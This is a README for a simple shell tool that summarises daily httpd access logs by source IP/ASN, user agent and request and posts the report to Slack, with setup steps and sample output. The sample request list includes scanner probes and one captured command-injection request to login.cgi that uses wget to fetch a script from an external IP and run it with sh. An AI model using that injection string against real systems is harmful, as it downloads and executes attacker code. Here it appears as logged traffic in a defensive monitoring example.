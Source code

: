 # dailyHttpdLogcheck
Simple httpd log daily checker

Summary log file.

- Source IP/ASN
- User agent
- Request

# Usage

NOTE: Only Ubuntu has confirmed the operation.

NOTE: Will be clone to /opt/dailyLogCheck/ .

1. clone hogehogehugahuga/dailyHttpdLogcheck

```
$ sudo -s
# cd /opt
# git clone https://github.com/hogehuga/dailyLogCheck.git
```

2. Change the setting according to your own environment.

- On dailyLogCheck.sh
  - ACCSESSLOG (eg. /var/log/httpd/access_log)
  - DISPLINE (eg. Enter 30 to display 30 lines.)
  - IGNORE (eg. if not clone to /opt/dailyLogcheck, change directory)
- On DailyLogCheck-cron.sh
  - GITDIR (eg. if not clone to /opt/dailyLogcheck, change directory)
- pushSlack.sh
  - WEBHOOKURL (see slack's Incoming Webhook manual.)
  - CHANNEL (Webhook post channel)
  - BOTNAME (Name for post user)

3. TEST; dailyLogCheck.sh

- kick ./dailyLogCheck.sh
  - If the settings are correct, the report will be printed to standard output.

```
root@wwwhost:/opt/dailyLogCheck# ./dailyLogCheck.sh 
---Apply exclusion settings(ignore.list)--
HTTPD log watcher (5/May/2020)
---Source IP/ASN counts---
COUNT\tIP\tASN
 12     xxx.xxx.xxx   ASNNNNN xxxxx.LTD
 9      xxx.xxx.xxx   ASNNNNN xxxxx.LTD
 8      xxx.xxx.xxx   ASNNNNN xxxxx.LTD
 6      xxx.xxx.xxx   ASNNNNN xxxxx.LTD
...
```

If you get an error, check the following:

- Make sure the path is correct.
  - ACCESSLOG
- Make sure the format is correct.
  - IGNORE
    - This is "grep based RegExp."

4. TEST; pushSlack.sh

- kick ./pushSlack.sh as `echo "test" | ./pushSlack.sh` .
  - If successful, the post will be posted to Slack.

If you get an error, check the following:

- Make sure the value is correct.
  - WEBHOOK
  - CHANNEL

5. TEST; final, dailyLogCheck-cron.sh

- kick `# ./dailyLogCheck-cron.sh`
  - IF successful, repot will posted to slack.
  
If you get an error, check the following:

- Make sure the value is correct.
  - GITDIR
    - This script is kick "dailyLogCheck.sh" and "pushSlack.sh" only.

6. set the cron.

- setting to cron

```
# crontab -e
58 23 * * * /opt/dailyLogCheck/dailyLogCheck-cron.sh > /dev/null 2>&1
```

# contact

twitter; @hogehuga

# exsample

```
# ./daiyHttpdLogcheck.sh
HTTPD log watcher (24/Jun/2018)
---Source IP/ASN counts---
COUNT   IP      ASN
 12     xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 9      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 8      xxx.xxx.xxx.xxx  IP Address not found
 6      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 6      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 4      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 4      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 3      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 2      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 2      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
 2      xxx.xxx.xxx.xxx  AS15169 Google LLC
 2      xxx.xxx.xxx.xxx  AS15169 Google LLC
 2      xxx.xxx.xxx.xxx  AS15169 Google LLC
 2      xxx.xxx.xxx.xxx  AS15169 Google LLC
 2      xxx.xxx.xxx.xxx  ASnnn  xxxx inc.
---UserAgent counts---
==TOP5==
     49 -
     21 ZmEu
     12 Mozilla/5.0 (compatible; inoreader.com; 5 subscribers)
     12 Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
      8 WordPress/4.9.6; http://www.security-feed.club/wordpress
      4 Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2272.96 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
      3 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
      3 Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
      3 Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
      2 Mozilla/5.0 (compatible; bingbot/2.0; +http://www.bing.com/bingbot.htm)
      2 Mozilla/5.0 (compatible; YandexBot/3.0; +http://yandex.com/bots)
      2 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
      2 Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
      2 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7
      1 Telesphoreo
==TAIL5==
      3 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
      3 Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
      3 Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
      2 Mozilla/5.0 (compatible; bingbot/2.0; +http://www.bing.com/bingbot.htm)
      2 Mozilla/5.0 (compatible; YandexBot/3.0; +http://yandex.com/bots)
      2 Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
      2 Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
      2 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7
      1 Telesphoreo
      1 Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
      1 Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:49.0) Gecko/20100101 Firefox/49.0 (FlipboardProxy/1.2; +http://flipboard.com/browserproxy)
      1 Mozilla/3.0 (compatible; Indy Library)
      1 Hello, World
      1 Headline-Reader [t] (http://www.infomaker.jp/)
      1 Hatena-Favicon2 (http://www.hatena.ne.jp/faq/)
---Request---
     43 HEAD / HTTP/1.0
     24 GET / HTTP/1.1
     16 GET /wordpress/?feed=rss2 HTTP/1.1
      7 GET /wordpress/?p=131 HTTP/1.1
      5 GET / HTTP/1.0
      3 GET /w00tw00t.at.blackhats.romanian.anti-sec:) HTTP/1.1
      3 GET /pma/scripts/setup.php HTTP/1.1
      3 GET /phpmyadmin/scripts/setup.php HTTP/1.1
      3 GET /phpMyAdmin/scripts/setup.php HTTP/1.1
      3 GET /myadmin/scripts/setup.php HTTP/1.1
      2 GET /robots.txt HTTP/1.1
      2 GET /MyAdmin/scripts/setup.php HTTP/1.1
      1 HEAD / HTTP/1.1
      1 GET /x HTTP/1.1
      1 GET /wordpress/?p=41 HTTP/1.1
      1 GET /setup.php HTTP/1.1
      1 GET /scripts/setup.php HTTP/1.1
      1 GET /other/iotsecjp3/ HTTP/1.1
      1 GET /mysqladmin/scripts/setup.php HTTP/1.1
      1 GET /myAdmin/scripts/setup.php HTTP/1.1
      1 GET /manager/html HTTP/1.1
      1 GET /login.cgi?cli=aa%20aa%27;wget%20http://185.62.190.191/r%20-O%20-%3E%20/tmp/r;sh%20/tmp/r%27$ HTTP/1.1
#
```
